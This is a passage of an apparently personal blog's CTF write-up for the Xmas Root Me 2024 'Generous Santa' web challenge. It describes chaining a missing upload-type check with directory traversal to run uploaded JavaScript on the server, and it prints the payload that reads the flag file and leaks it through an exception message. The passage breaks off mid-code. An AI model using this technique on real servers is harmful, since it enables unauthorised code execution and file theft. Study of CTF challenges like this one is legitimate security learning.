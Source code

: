 ```yaml
---
layout: post
title: "XMas Root Me 2024"
author: cryptax
date: 2025-01-14
tags:
- rootme
- 2024
- ctf
- javascript
- path traversal
- AI
- crypto
- OSINT
- modbus
- ghostscript
---
```


# Xmas Root Me CTF 2024

## Generous Santa (Day 1) - Web

This is a web challenge. We are given a Docker environment to test locally, and then have our own instance online to retrieve the flag.

We can upload photos of potential gifts and then select what we'd like Santa to bring us.
Inspection of the source code of the website shows:

1. The code does not check we upload a photo. (`api/suggest`)
2. Directory traversal when selecting a gift. (`api/add`)

So, the hack consists in uploading a javascript file as a picture via `api/suggest`. This "picture" is stored in a directory whose name is supplied in the answer of the suggest API.
Then, we *execute* the javascript by adding it as a selected gift. Our Javascript reads the flag, and returns it as the message of an exception.

```javascript
const fs = require('fs');

const readFileSync = (filePath) => {
    try {
      const data = fs.readFileSync(filePath, 'utf8'); // Lecture synchrone
      return data; // Retourne le contenu du fichier
    } catch (err) {
      throw new Error(`Erreur lors de la lecture du fichier : ${err.message}`);
    }
};

const throwExceptionWithFileContent = (filePath) => {
    try {
      const fileContent = fs.readFileSync(filePath, 'utf8'); // Lecture synchrone du fichier
      throw new Error(fileContent); // Lève une exception avec le contenu du fichier comme message
    } catch (err) {
      console.error(`Une exception a été levée : ${err.message}`);
      throw err; // Optionnel : relancer l'exception pour qu'elle soit traitée plus haut
    }
  };

const mongoose = require('/usr/app/node_modules/mongoose');


const picoSchema = new mongoose.Schema({
```